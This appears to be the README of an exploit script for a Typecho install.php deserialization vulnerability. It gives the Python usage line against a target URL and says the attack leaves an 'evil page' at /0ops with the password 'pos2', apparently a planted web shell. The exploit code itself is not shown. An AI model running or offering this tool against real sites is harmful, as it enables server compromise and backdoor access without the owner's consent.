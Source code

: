 # Typecho Anti serialization vulnerability

intsall.php is vulnerable

# Requirement
```
Python 2.7
```

# Usage
```
Usage:  python typecho_exp.py [vulnerable url]
	 	
	vulnerable url  www.example.com/install.php

python typecho_exp.py www.example.com/install.php

the evil page: www.example.com/0ops
password: pos2
```

# Credit

Author: CarlStar


